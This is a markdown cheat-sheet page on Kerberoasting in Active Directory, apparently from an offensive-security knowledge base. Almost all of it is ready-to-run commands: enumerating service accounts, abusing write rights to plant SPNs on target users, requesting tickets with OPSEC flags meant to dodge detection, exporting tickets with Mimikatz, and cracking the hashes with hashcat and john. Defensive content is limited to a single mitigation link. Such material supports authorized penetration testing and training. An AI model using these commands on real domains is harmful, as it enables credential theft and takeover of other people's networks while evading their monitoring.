

# Kerberoasting


* Kerberos session ticket (TGS) has a server portion encrypted with the password hash of a service account.
* Service Accounts would have the SPN set with appropriate service name.
* This allows attackers to request a ticket and perform offline password attacks

<p align="center"></p>

* **Prerequisite** - Either domain user credentials (cleartext or NTLM hash or Kerberos ticket), a shell in the context of a domain user, or account such as SYSTEM.


### Service Accounts Enumeration

* **PowerView**
  * `Get-DomainUser -SPN`
  * `Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName`
  * `Get-DomainUser <username> -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes`
  * `Get-DomainUser -SPN -Domain <external-forest-domain> | select SamAccountName` <sup><sub>(for Cross-Forest Kerberoasting)<sub></sup>
* **ADModule**
  * `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`&#x20;
* **Impacket**
  * `GetUserSPNs.py -dc-ip <IP> <domain>/<username>`
  * `sudo GetUserSPNs.py -target-domain <external-forest-domain> <current-domain>/<compromised-user>` <sup><sub>(for Cross-Forest Kerberoasting)<sub></sup>
* **setspn** <sup><sub>(in-built tool)<sub></sup>
  * `setspn.exe -Q *`_`/*`_&#x20;
* **Rubeus**
  * `Rubeus.exe kerberoast /stats`

### SPN Manipulation for Kerberoasting

* With enough rights (GenericAll / GenericWrite), a target user's SPN can be set to anything. <sub>(unique in the domain)</sub>
* [#domain-enumeration-acls](../../enumeration/ad-and-powerview-modules.md#domain-enumeration-acls "mention")
* **PowerView**
  * `Get-DomainUser -Identity <username> | Select-Object serviceprincipalname`  <sub>(Check SPN)</sub>
  * `Set-DomainObject -Identity <username> -Set @{serviceprincipalname='<domain>/<unique-value>'}`
  * ```powershell
    $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword)
    Set-DomainObject -Credential $Cred -Identity <target-user> -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
    ## Cleanup
    Set-DomainObject -Credential $Cred -Identity <target-user> -Clear serviceprincipalname -Verbose
    ```
* **ADModule**
  * `Get-ADUser -Identity <username> -Properties ServicePrincipalName | Select-Object ServicePrincipalName` <sub>(Check SPN)</sub>
  * `Set-ADUser -Identity <username> -ServicePrincipalNames @{Add='<domain>/<unique-value>'}`

### Kerberoasting

* **Rubeus**
  * <pre class="language-batch" data-line-numbers><code class="lang-batch">REM List Kerberoast Stats
    Rubeus.exe kerberoast /stats
    REM Request TGS for Specific User
    Rubeus.exe kerberoast /user:&#x3C;username> /simple /nowrap
    REM OPSEC-Safe Kerberoasting (Avoid Encryption Downgrade Detection)
    Rubeus.exe kerberoast /stats /rc4opsec
    Rubeus.exe kerberoast /user:&#x3C;username> /simple /rc4opsec /nowrap
    REM Roast All RC4_HMAC-Only Accounts
    Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
    REM Roast accounts with admincount set to 1
    Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
    REM Request an RC4 ticket even though supported types are AES 128/256
    Rubeus.exe kerberoast /user:&#x3C;username> /tgtdeleg /nowrap
    REM Roast Cross-Forest Accounts
    Rubeus.exe kerberoast /domain:&#x3C;external-forest-domain> /user:&#x3C;username> /nowrap
    </code></pre>
* **Impacket**
  * `sudo GetUserSPNs.py <domain>/<user>:<password> -dc-ip <IP> -request`&#x20;
  * `sudo GetUserSPNs.py <domain>/<user>:<password> -dc-ip <IP> -request-user <target-user> -outputfile <file>`
  * `sudo GetUserSPNs.py -request -target-domain <external-forest-domain> <current-domain>/<compromised-user>` <sup><sub>(for Cross-Forest Kerberoasting)<sub></sup>
* **PowerView**
  * `Get-DomainSPNTicket`
  * `Get-DomainSPNTicket -SPN <service/hostname:port> -Credential <domain\user>`
  * `Get-DomainUser -Identity <target-user> | Get-DomainSPNTicket -Format Hashcat`  <sup><sub>(single user)<sub></sup>
  * `Get-DomainUser -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\krbhash.csv -NoTypeInformation`  <sup><sub>(all SPN users)<sub></sup>
* **Manual Method**
  * **Target Single User**
    * `Add-Type -AssemblyName System.IdentityModel`
    * `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN-Value>"` <sup><sub>(eg: SPN-Value=MSSQLSvc/DEV-PRE-SQL.domain.local:1433)<sub></sup>
  * **Target Multiple Users**
    * `setspn.exe -T <domain> -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`
  * **Extracting Tickets from Memory with Mimikatz**
    * `mimikatz # base64 /out:true` <sup><sub>(optional, Mimikatz will extract the tickets and write them to<sub></sup> <sup><sub> </sup><sup><sub>`.kirbi`<sub></sup> <sup><sub> </sup><sup><sub>filesif not specified)<sub></sup>
    * `mimikatz # kerberos::list /export`
    * `echo "<base64 blob>" | tr -d \\n`\
      `cat encoded_file | base64 -d > user.kirbi`   <sup><sub>(optional, use if base64 /out:true is set)<sub></sup>
    * `python2.7 kirbi2john.py user.kirbi`&#x20;
    * `sed 's/\$krb5tgs\$\(.*\`_`):\(.*\`_`)/\$krb5tgs\$23\$\*\1\*\$\2/' john_file > hashcat_file`  <sup><sub>(hash prep for hashcat)<sub></sup>

### Cracking Kerberoast Hashes

* `hashcat -m 13100 krbhash_rc4.txt /usr/share/wordlists/rockyou.txt`
* `hashcat -m 19700 krbhash_aes256.txt /usr/share/wordlists/rockyou.txt`
* `john.exe --wordlist=pass.txt hashes.txt`

### Mitigation

* [Detecting Kerberoasting Activity](https://adsecurity.org/?p=3458)

### Tools

* [setspn.exe](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241\(v=ws.11\))
* [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)
* [Rubeus](https://github.com/GhostPack/Rubeus)

